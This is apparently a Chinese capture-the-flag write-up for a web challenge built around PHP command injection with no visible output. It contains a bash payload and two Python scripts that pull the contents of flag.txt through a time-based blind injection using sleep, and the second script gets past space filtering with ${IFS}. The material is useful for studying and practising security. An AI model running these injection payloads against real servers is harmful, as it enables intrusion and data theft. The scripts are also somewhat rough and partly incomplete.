 #### post2(400)
> http://120.55.43.255:22712

查看网页源码
```html
POST[cmd] 这次我们玩过滤好了。
<!--
	eval(exec($c));//read flag.txt But no cat!！！
-->
```
同上一题post1，使用cut命令，区别在于exec执行命令后没有回显，空格没有过滤。本题正解是通过sleep命令盲注，构造的playload为（中括号相邻必须有空格）
```bash
[ `cut -b 2 flag.txt` == 'l' ] && sleep 1
```
盲注脚本参考
```python
# http://pumpkin9.top/2019/12/24/%E7%AC%AC%E5%9B%9B%E5%AD%A3CTF%E7%AD%94%E9%A2%98%E8%B5%9Bwrite-up/
import requests
import string
dic = string.printable
flag = ""
for j in range(1,33):
	for i in range(len(dic)):
		url = "http://120.55.43.255:22712"
		data = {
			"cmd" : '''[ `cut -c '''+str(j)+''' flag.txt` =  "%c" ]  && sleep 5'''%dic[i]
		}
		try:
			r = requests.post(url,data=data,timeout=1)
			# print data
		except requests.exceptions.ReadTimeout,e:
			flag += dic[i]
			print flag
			break



import requests
import time

url = 'http://120.55.43.255:22712/'
alphabet = ['?','!','|','[',']','{','}','_','/','*','-','+','&',"%",'#','@','$','^','~','a','b','c','d','e','f','g','h','i','g','k','l','m','n','o','p','q','r','s','t','u','v','w','x','y','z','A','B','C','D','E','F','G','H','I','G','K','L','M','N','O','P','Q','R','S','T','U','V','W','X','Y','Z','0','1','2','3','4','5','6','7','8','9']
flag = ''
count = 0
sign = 0

for i in range(50):
	count += 1
	payload = ''
	payload += 'a=`cut${IFS}-c${IFS}'
	payload += str(count)
	payload += '''${IFS}flag.txt`;${IFS}[${IFS}$a${IFS}=${IFS}"'''
	payload += '}'
	payload += '''"${IFS}]${IFS}&&${IFS}sleep${IFS}3'''
	data = {'cmd':payload}
	a = time.time()
	r = requests.post(url,data=data)
	b = time.time()
	if (b-a)>2 :
		print "Find."
		flaglen = count
		print count
```